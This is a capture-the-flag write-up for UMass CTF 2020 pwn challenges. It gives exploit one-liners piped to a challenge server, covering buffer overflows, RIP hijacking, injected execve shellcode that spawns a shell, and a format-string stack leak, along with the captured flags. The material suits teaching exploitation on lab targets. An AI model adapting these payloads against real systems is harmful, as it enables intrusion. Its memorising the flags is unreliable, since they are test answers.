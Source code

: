 # UMass CTF 2020 - PWN

## Baby Overflow I

### Prompt

This is my first program. Be nice :)

`nc 34.75.105.136 1024`

### TLDR;

Looking at the binary in GDB we see that the buffer is 16 characters and right above it is the variable for `should_get_flag`.
Therefore, we should write in 16 junk characters and then write in 0x1.

`python -c "import struct; out = 'A'*0x10; out += struct.pack('I', 0x1); print(out)" | nc 34.75.105.136 1024`

### Flag

`UMASS{N3v3r_g0nn4_m3s$_th1s_up}`

## Baby Overflow II

### Prompt

When my friend Ptasie Mleczko typed in his name, it gave him the flag. It was weird, but I think I fixed it.

nc 34.75.105.136 1025

### TLDR;

The binary is pretty much the same, however, this time it expects a specific value instead of a boolean True value.

`python -c "import struct;out = 'A'*0x10;out += struct.pack('I', 0xB16B00B5);print(out)" | nc 34.75.105.136 1025`

### Flag

`UMASS{Dyslexic_D0g_1nth3$ky}`

## Baby Overflow III

### Prompt

Okay, now it's really secure.

nc 34.75.105.136 1027

### TLDR;

For this challenge one has to gain control of the RIP to change execution flow.
This can be done by overloading the buffer, the saved RBP value on the stack and then by inserting the address one would like to execute at.

`(python -c "import struct;out = 'A'*0x10;out += 'bbbbbbbb';out += struct.pack('Q', 0x401132); out += struct.pack('Q', 0x401060); print(out)"; echo) | nc 34.75.105.136 1027`

### Flag

`UMASS{first_step_to_rop}`

## Baby Overflow IV

### Prompt

I don't even know why I had that function in the first place...

nc 34.75.105.136 1028

### TLDR;

`(python -c "import struct;out = 'A'*0x10;out += 'bbbbbbbb';out += struct.pack('Q', 0x0000000000404060); print('\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05');print(out)"; cat -) | nc 34.75.105.136 1028`

Once in the shell type
`cat flag`

### Flag

`UMASS{now_you_can_really_call_yourself_a_hacker}`

## format_what

### Prompt

We just learned format strings in 230, can you check if I'm doing it right?

nc 34.75.105.136 1030

### TLDR;


`python -c "print('%lu '*20)" | nc 34.75.105.136 1030 | (read -r i; read -r s; for i
 in $s; do python3 -c "import struct; print(struct.pack('Q', $i))"; done)`

### Flag

`UMASS{n0_f0rm4t_n33d3d!?}`

